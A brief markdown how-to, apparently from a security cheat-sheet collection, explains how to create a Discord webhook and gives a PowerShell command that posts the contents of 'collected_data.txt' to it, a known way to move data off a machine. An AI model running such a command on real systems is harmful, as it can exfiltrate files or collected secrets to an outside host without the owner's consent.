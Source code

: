 # Send Data via Discord

## How To

1. Create a new channel in your own server.
2. Open settings of the channel and click `Integrations` at the left menu.
3. In the Integrations menu, click the `Create Webhook` button.
4. Click the webhook and click the `Copy Webhook URL` to copy the URL.
5. In PowerShell, run the following command:

    ```powershell
    $webhookUrl = "<YOUR_WEBHOOK_URL>"
    $content = Get-Content -Raw -Path ".\collected_data.txt"

    Invoke-RestMethod -Uri $webhookUrl -Method Post -Body @{
        "content" = $content
    } -ContentType 'application/x-www-form-urlencoded'
    ```

6. Check the sent data in your channel.